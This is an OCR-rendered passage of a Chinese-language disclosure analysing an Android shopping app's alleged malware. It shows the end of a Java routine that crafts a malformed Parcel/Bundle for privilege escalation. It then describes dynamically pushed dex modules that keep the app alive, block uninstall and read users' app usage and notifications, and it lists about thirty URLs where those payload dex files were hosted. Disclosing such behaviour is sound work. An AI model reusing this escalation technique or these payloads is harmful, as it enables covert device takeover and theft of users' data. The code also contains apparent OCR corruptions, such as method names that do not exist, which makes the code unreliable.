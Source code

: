  ```
	obtain2.writeInt(4);
	obtain2.writeString("android.content.Intent");
	obtain2.writeToParcel(obtain3, 0);
	obtain2.appendFrom(obtain3, 0, obtain3.dataSize());
	int dataPosition2 = obtain2.dataPosition();
	obtain2.setDataPosition(dataPosition2 - 4);
	obtain2.writeInit(dataPosition2 -dataPosition);
	obtain2.setdataPosition(dataPosition2);
	int dataSize = obtain2.dataSize();
	obtain.writeInt(dataSize);
	obtain.writeInt(1279544898);
	obtain.appendFrom(obtain2, 0, dataSize);
	obtain.setDataPosition(0);
	bundle.readFromParcel(obtain);
	return bundle;
}
```


提权后，就开始瞎搞了，动态下发dex，开始给自己保活，防卸载，然后搞数据，这部分代码比较通俗易懂，
比如：  
1a68d982e02fc22b464693a06f528fac.dex    读取用户手机上的app使用记录  
95cd95ab4d694ad8bdf49f07e3599fb3.dex    读取用户手机的应用通知，这一波各大公司app全灭了吧？  

自己去dex目录看吧。  

  
  部分dex文件的下载地址（3月3日已被拼多多从CDN服务器上删除）：  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/4a72c6bb-337c-46c4-8c9c-637efafdd1c6.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/61517b68-7c09-4021-9aaa-cdebeb9549f2.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/78afc1cd-60da-482b-90e7-4d5e72a01266.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/f9b6b139-4516-4ac2-896d-8bc3eb1f2d03.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/6932a923-9f13-4624-bfea-1249ddfd5505.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/7c6e6702-e461-4315-8631-eee246aeba95.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/8c34f5dc-f04c-40ba-98d4-7aa7c364b65c.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/a3937709-b9cc-48fd-8918-163c9cb7c2df.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/a4d4dccf-1f8c-48e3-acd5-92cdf156e585.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/e9ded9d4-1c94-47d0-8e8b-94aa773af81c.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/4569a29c-b5a8-4dcf-a3a6-0a2f0bfdd493.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/538278f3-9f68-4fce-be10-12635b9640b2.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/75dcc8ea-d0f9-4222-b8dd-2a83444f9cd6.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7c3507cc-c1a7-4c97-bfa3-e70b938d8f07.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7c3507cc-c1a7-4c97-bfa3-e70b938d8f07.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7ce6d296-a5bd-4718-9f79-543621ba5422.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/e723d560-c2ee-461e-b2a1-96f85b614f2b.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/f0139a82-8bb6-4f3e-a81b-70200fc38eaa.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/sdlog/218a37ea-710d-49cb-b872-2a47a1115c69.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/136d4651-df47-41b4-bb80-2ec0ab1bc775.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/4f260398-e9d1-4390-bbb9-eeb49c07bf3c.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/7dee63bd-ebad-4d74-a06f-90750aa18e18.dex  
  https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/8b56d820-cac2-4ca0-8a3a-1083c5cca7ae.dex  